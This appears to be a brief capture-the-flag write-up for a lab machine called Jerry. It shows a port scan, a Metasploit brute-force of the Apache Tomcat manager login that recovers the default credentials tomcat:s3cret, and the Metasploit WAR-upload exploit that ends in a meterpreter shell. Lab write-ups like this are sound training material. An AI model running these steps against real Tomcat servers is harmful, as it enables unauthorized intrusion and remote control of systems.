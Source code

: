 # Jerry Write-Up

Easy

Tags: 
`Malicious WAR File Upload`

## Intro

1. Brute-force Credential Apache Tomcat
2. Exploit Apache Tomcat

## Exploit

### Port scanning

```
PORT     STATE SERVICE
8080/tcp open  http-proxy
```

### Brute-force Credential

```
use auxiliary/scanner/http/tomcat_mgr_login
```

rhosts, rport > run

```
[+] 10.10.10.95:8080 - Login Successful: tomcat:s3cret
```

### Exploit Apache Tomcat

```
use exploit/multi/http/tomcat_mgr_upload
```

```
meterpreter > shell
```